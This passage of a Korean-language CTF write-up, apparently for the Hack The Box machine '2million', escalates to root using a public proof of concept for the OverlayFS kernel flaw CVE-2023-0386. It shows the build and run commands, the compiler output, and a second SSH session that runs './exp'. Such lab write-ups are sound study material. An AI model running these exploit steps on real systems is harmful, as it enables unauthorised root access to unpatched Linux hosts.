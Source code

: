 OverlayFS 관련 커널 관련 취약점이 있는 것으로 보인다. 검색을 해보니 cve-2023-0386과 관련된 문제 같다.
> The OverlayFS vulnerability CVE-2023-0386: Overview, detection, and remediation

github 에서 [PoC](https://github.com/sxlmnwb/CVE-2023-0386)를 갖고와 공격을 시도하였다. 아래와 같이 `./fuse ./ovlcap/lower ./gc`까지 진행된 상태면 쉘을 하나 더 연결해주어야 한다.
``` bash
admin@2million:/tmp/CVE-2023-0386$ ls
exp.c  fuse.c  getshell.c  Makefile  ovlcap  README.md  test
admin@2million:/tmp/CVE-2023-0386$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking gcc -o exp exp.c -lcap
gcc -o gc getshell.c
admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
```

## [0x07] exploit
---
ssh로 shell을 하나 더 붙인 후 github 설명에 있던 바와 같이 ./exp를 실행해주면 root 권한을 획득하게 된다.
``` bash
┌──(root㉿kali)-[/home/user/htb]
└─# ssh admin@10.10.11.221

admin@2million:~$ cd /tmp/CVE-2023-0386/

admin@2million:/tmp/CVE-2023-0386$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
admin@2million:/tmp/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Mar 29 04:08 .
```